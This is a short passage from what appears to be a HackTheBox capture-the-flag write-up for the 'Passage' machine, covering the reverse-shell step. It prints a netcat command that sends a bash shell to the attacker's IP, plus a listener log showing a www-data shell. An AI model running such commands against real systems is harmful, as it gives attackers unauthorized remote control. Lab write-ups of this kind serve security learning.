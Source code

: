 ### Reverse Shell

Drops reverse shell using `nc`.

```bash
# Execute command on victim
$ /bin/nc 10.10.14.2 9999 -e /bin/bash

# Up listener on machine
$ nc -nvlp 9999
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.206.
Ncat: Connection from 10.10.10.206:53372.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

![reverse](/assets/posts/ctf/hackthebox/machines/passage/img/revshell.png)
_reverse shell using nc_

---

# Post Exploitation

---
